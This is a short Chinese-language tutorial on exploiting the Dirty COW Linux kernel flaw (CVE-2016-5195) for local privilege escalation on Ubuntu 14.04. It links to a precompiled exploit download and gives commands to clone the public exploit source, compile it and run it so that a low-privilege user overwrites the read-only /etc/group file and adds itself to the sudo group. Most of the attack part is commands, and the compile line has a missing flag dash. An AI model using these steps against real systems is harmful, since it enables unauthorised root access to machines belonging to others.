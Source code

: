 # （CVE-2016-5195）脏牛Linux 本地提权.md

编译好的EXP下载地址： https://github.com/Brucetg/DirtyCow-EXP

该漏洞是 Linux 内核的内存子系统在处理写时拷贝（Copy-on-Write）时存在条件竞争漏洞， 导致可以破坏私有只读内存映射。黑客可以在获取低权限的的本地用户后，利用此漏洞获取 其他只读内存映射的写权限，进一步获取 root 权限。

## 1.Linux

**Ubuntu 14.04 :**

1）添加用户：

```
sudo adduser test 
```

输入两次密码后一直回车就行，查看当前用户的信息，终端输入 id，回车，可以看到当 前用户是有 sudo 权限的。

切换到刚刚新建的 test 用户，同样输入 id，查看 test 用户的信息，发现 test 用户没有 sudo 权限，

![img](.resource/%EF%BC%88CVE-2016-5195%EF%BC%89%E8%84%8F%E7%89%9BLinux%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83/media/ChB3md.png)

2）运行DirtyCow的exp进行提权：

```
git clone https://github.com/dirtycow/dirtycow.github.io

cd dirtycow.github.io
```

编译exp：

```
gcc dirtyc0w.c -o dirtycow lpthread
```

执行exp：

```
./dirtycow /etc/group “$(sed ‘/\(sudo*\)/ s/$/,test/’ /etc/group)”
```

![img](.resource/%EF%BC%88CVE-2016-5195%EF%BC%89%E8%84%8F%E7%89%9BLinux%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83/media/ChBGTI.png)
